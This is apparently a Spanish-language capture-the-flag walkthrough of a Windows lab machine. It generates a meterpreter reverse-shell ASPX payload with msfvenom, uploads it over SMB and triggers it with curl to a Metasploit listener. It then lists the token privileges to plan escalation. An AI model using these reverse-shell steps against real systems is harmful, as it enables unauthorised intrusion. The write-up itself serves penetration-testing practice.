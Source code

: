 Primero de todo generaremos un rev shell con msfvenom 

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.10.30.244 lport=9001 -f aspx -o reverse_shell.aspx
```

La subimos al smb

![image](https://github.com/user-attachments/assets/19591c74-c392-4638-afe2-4f31d147d254)

Una vez subimos, nos generamos un nc con metasploit

```
use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.221.106
lhost => 10.10.221.106
msf6 exploit(multi/handler) > set lport 9001
lport => 9001
msf6 exploit(multi/handler) > set payload windowx/x64/meterpreter_reverse_tcp
[-] The value specified for payload is not valid.
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run
```

Una vez estemos a la espera de la escucha le mandamos un Curl

```
curl http://10.10.11.56:49663/nt4wrksv/reverse_shell.aspx
```
Después de la espera estaremos dentro y podemos coger la flag user.txt

C:\Users\Bob\Desktop

# Escalada de privilegios

Dentro podemos generar una shell

```
shell
```

O con el mismo metasploit podemos coger privilegios y saber quien somos

```
getprivs

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```
